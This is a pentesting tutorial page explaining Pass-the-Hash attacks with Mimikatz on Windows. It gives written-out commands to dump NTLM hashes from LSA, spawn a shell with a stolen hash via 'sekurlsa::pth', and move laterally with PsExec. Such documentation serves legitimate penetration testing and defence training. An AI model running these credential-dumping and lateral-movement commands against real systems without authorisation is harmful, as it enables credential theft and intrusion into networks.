 ```yaml
---
title: Pass-The-Hash
layout: default
parent: Mimikatz
grand_parent: Pentesting
---
```


# Pass-the-Hash using Mimikatz

## Introduction


Pass-the-Hash stands as a formidable technique wielded by attackers, providing a means to authenticate themselves to remote servers or services by utilizing the NTLM or LanMan hash derived from a user's password.

One tool to execute Pass-the-Hash is Mimikatz. Mimikatz specializes in extracting password hashes from critical Windows components such as the Security Account Manager (SAM) database and the Local Security Authority Subsystem Service (LSASS). By obtaining these hashes, attackers can seamlessly execute pass-the-hash attacks, granting unauthorized access and allowing lateral movement within Windows networks.

## Step-by-Step Guide

### 1. Dump the NTLM hashes
```bash
mimikatz > lsadump::lsa /patch # or any other mimikatz commands to dump ntlm hashes
```
![Dump NTLM hashes](dump_ntlm.png)

### 2. Use 'sekurlsa::pth' to spawn a new cmd with a chosen user ntlm credential

E.g. 'win7-1\user' with '8846f7eaee8fb117ad06bdd830b7586c' ntlm hash

```bash
mimikatz > sekurlsa::pth /user:user /domain:win7-1 /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:cmd
```

![Run sekurlsa::pth](spawn_cmd.png)

### 3. Use PsExec to connect to other machines

```bash
# PsExec.exe \\<TARGET MACHINE> cmd
C:\ >  PsExec.exe \\192.168.0.170 cmd
```

![PsExec to another machine](psexec_to_another_machine.png)

## Video Demonstration

[<img src="https://img.youtube.com/vi/YvEYD7PEvio/hqdefault.jpg"
/>](https://www.youtube.com/embed/YvEYD7PEvio)

## References
- https://github.com/gentilkiwi/mimikatz/
- https://learn.microsoft.com/en-us/sysinternals/downloads/psexec


For Troubleshooting PsExec issues:
- https://superuser.com/questions/1810223/psexec-access-denied-on-remote-computer
- https://stackoverflow.com/questions/828432/psexec-access-denied-errors